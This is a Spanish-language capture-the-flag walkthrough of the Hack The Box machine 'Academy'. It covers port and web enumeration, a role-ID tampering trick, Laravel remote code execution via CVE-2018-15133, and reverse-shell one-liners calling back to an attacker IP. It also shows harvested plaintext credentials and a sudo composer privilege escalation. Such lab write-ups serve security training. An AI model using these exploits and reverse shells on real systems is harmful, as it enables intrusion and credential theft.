



Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.215
Host is up, received user-set (0.27s latency).
Scanned at 2024-09-11 19:01:38 -03 for 21s
Not shown: 64039 closed tcp ports (reset), 1493 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
33060/tcp open mysqlx syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sC -sV -p22,80,33060 10.10.10.215
Host is up (0.27s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
| 256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_ 256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open mysqlx?
| fingerprint-strings:
| DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
| Invalid message"
|_ HY000
El servicio HTTP hace un redirect a academy.htb, por lo que cargamos este registro en nuestro /etc/hosts.
El sitio nos ofrece la posibilidad de registrarnos como usuarios, por lo tanto, creamos uno e ingresamos:
Lo navegamos un poco pero no encontramos nada relevante.
Vamos a emplear el script http-enum de nmap para intentar encontrar directorios ocultos:
nmap --script='http-enum' -p80 academy.htb
Además de login.php, que lo conocíamos, tenemos un admin.php. Vamos a emplear un diccionario más grande a ver si encontramos algo más con extensión .php:
wfuzz -c --hw=31 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://academy.htb/FUZZ.php"
Encontramos config.php.
Al intentar acceder, admin.php nos muestra otro panel de login (probamos las credenciales del usuario que cree antes pero claramente no funciona). El archivo config.php no nos muestra nada.
Vamos a intentar registrar un nuevo usuario y capturar la request con Burpsuite:
Vemos que además de los campos de usuario y contraseña, también se envía un campo roleid que por default tiene un 0.
Intentaremos crear un nuevo usuario: alim2, pero esta vez seteando el roleid en 1:
Si ahora intentamos acceder al panel de administrador, podemos!
Vemos algunas cosas interesantes. Por un lado, dos potenciales usuarios: cry0l1t3 y mrb3n.
Por otro, al parecer está pendiente arreglar un error en: dev-staging-01.academy.htb. Esto es un subdominio que no conocíamos. Lo cargamos en el /etc/hosts e ingresamos:
Intrusión
Si miramos el contenido vemos que estamos ante Laravel, un framework de código abierto para desarrollar aplicaciones y servicios web con PHP 5 y PHP 7:

Vamos a buscar exploits para esto:
Existen vulnerabilidades para Laravel Framework que permite ejecución remota de código. Inicialmente encontramos un script asociado al CVE-2021-3129, pero no tenemos éxito.
Luego, damos con el CVE-2018-15133. Encontramos el siguiente exploit: https://github.com/aljavier/exploit_laravel_cve-2018-15133
Lo descargamos y lo probamos. Vemos que el uso es el siguiente:
pwn_laravel.py [-h] [-c COMMAND] [-m {1,2,3,4}] [-i] URL API_KEY
Por lo tanto, lo corremos de esta forma:
python3 pwn_laravel.py -c id http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
Funciona!
Obteniendo una Reverse Shell
python3 pwn_laravel.py -c "bash -c 'bash -i >& /dev/tcp/10.10.14.21/4343 0>&1'" http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
Hacemos un tratamiento de la TTY.
Metasploit
Vamos a probar también el módulo de Metasploit. Lo configuramos de la siguiente manera:
Obtenemos la sesión:
Para obtener una sesión completamente interactiva y trabajar mejor, vamos a ejecutar lo siguiente:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f
Nos quedamos a la escucha con netcat en el puerto 443 y la recibimos:
Ahora hacemos un tratamiento de la TTY.
Escalación de privilegios
Estamos como el usuario www-data. Vamos a dirigirnos unos directorios hacia atras y nos paramos en /var/www/html. Desde aquí, vamos a realizar una búsqueda por config.php, que era el otro archivo que habíamos detectado antes:
find . -type f -name config.php
Encontramos todos estos:
Vamos revisando de a uno, y dentro de ./academy/public/config.php vemos credenciales en texto plano:

Son las credenciales para conectarnos a la base de datos:
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$link=mysqli_connect('localhost','root','GkEWXn4h34g8qx9fZ1','academy');
?>
Nos conectamos:
mysql -u root -D academy -p
Vemos todos los usuarios, incluso los que creamos antes:
Esto no es de mucha ayuda.
Seguimos navegando el server y dentro de /var/www/html/academy encontramos oculto el archivo .env. Dentro vemos credenciales en texto plano:

mySup3rP4s5w0rd!!
Brute Force
Antes vimos dos potenciales usuarios y ahora tenemos una contraseña. Vamos a ver si se está reutilizando y aplica a alguno de los dos.
Efectivamente, es la contraseña del usuario cry0l1t3, por lo tanto, migramos a ese usuario.
Aqui tenemos la primera flag:

cry0l1t3 to mrb3n
No encontramos forma de escalar privilegios hacia root con el usuario cry0l1t3, por lo que vamos a intentar migrar hacia el usuario mrb3n, que era el otro usuario que habíamos visto por la web.
Vamos a usar LinPEAS para que nos ayude a enumerar el sistema. Dentro de todo el output, vemos lo siguiente:
En los logs de audit tenemos lo que parece ser la contraseña en texto plano del usuario mrb3n: mrb3n_Ac@d3my!
Lo probamos y funciona!
mrb3n to root
Si ejecutamos sudo -l vemos que el usuario mrb3n puede ejecutar /usr/bin/composer como root sin especificar contraseña:
Apoyándonos en GTFObins, vemos que podemos ejecutarlo de la siguiente manera para escalar privilegios:
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
Lo hacemos y somos root!
Desde aquí vemos la segunda flag: